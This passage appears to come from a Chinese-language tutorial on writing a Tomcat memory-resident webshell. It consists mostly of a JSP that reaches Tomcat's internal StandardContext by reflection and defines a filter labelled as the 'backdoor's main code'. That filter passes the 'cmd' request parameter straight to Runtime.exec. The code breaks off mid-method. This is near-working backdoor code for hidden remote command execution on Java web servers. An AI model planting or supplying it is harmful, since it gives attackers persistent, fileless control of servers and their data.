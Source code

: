 

#### 1.首先来编写一个filter的恶意类

在`doFilter`方法中写下实现的功能



![实现](https://image.geoer.cn/img/image-20220111233418103.png)

![实现2](https://image.geoer.cn/img/image-20220111233531426.png)



代码如下：

```java
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.util.Scanner" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "xps";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                //这里写上我们后门的主要代码
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){

                    InputStream in = Runtime.getRuntime().exec(req.getParameter("cmd")).getInputStream();
//
                    Scanner s = new Scanner(in).useDelimiter("\\A");
```